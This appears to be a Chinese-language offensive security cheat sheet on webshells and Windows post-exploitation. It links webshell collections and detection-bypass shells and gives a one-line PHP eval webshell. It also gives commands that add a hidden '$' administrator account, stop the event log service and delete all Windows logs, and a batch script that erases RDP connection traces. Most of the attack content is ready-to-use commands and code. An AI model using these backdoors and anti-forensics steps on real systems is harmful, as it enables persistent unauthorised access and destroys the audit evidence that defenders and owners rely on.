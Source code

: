- [JoyChou93/webshell: 入侵分析时发现的 Webshell 后门](https://github.com/JoyChou93/webshell)
- [LandGrey/webshell-detect-bypass 绕过专业工具检测的 Webshell 研究文章和免杀的Webshell](https://github.com/LandGrey/webshell-detect-bypass)
- [yzddmr6/webshell-venom](https://github.com/yzddmr6/webshell-venom)
- [tennc/webshell](https://github.com/tennc/webshell) - 一个 webshell 收集项目
- [S9MF/S9MF-php-webshell-bypass](https://github.com/S9MF/S9MF-php-webshell-bypass) - 为方便WAF入库的项目 | 分享PHP免杀大马 | 菜是原罪 | 多姿势(假的就一个)
- [yzddmr6/BestShell](https://github.com/yzddmr6/BestShell)
- [backlion/webshell](https://github.com/backlion/webshell) - 这是一些常用的 webshell
- 一句话 `<?php eval($_POST[1]);?>`

**爆破 webshell**
- [shmilylty/cheetah](https://github.com/shmilylty/cheetah)

---

# win
## 后门用户

```bash
net user PHPNET$ 1234abcd~ /add  # 添加用户
# Windows 的帐号名称后带着"$"符号时,不会在 net user 命令中显示出帐号信息
net localgroup administrators PHPNET$ /add  # 将用户添加到管理组
net user PHPNET$ /del   # 删除用户

query user   # 查看会话

logoff ID号  # 踢掉
```

- [Ch1ngg/AggressorScript-CreateCloneHiddenAccount](https://github.com/Ch1ngg/AggressorScript-CreateCloneHiddenAccount) - 创建一个克隆隐藏的管理员账号
- [你能找到我么？-- 隐藏用户建立（Powershell）](https://evi1cg.me/archives/UserClone.html)

## 痕迹清理

**删除日志文件**
```bash
net stop eventlog    # 停止服务
del c:\Windows\System32\Winevt\Logs\* /Q
```

**3389 痕迹清除脚本**
```
echo off
color 0A
title 3389连接痕迹清除
mode con cols=88 lines=20
set /p fk= 确定要清空3389连接痕迹吗？(y/n)
if /i "%fk%"=="y" goto y
if /i "%fk%"=="n" goto n
call %0

:y
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client" /f
del /a /f /q %HOMEPATH%\Documents\Default.rdp
echo 命令执行成功，请手动查看是否清除。
pause >nul

:n
exit
```

---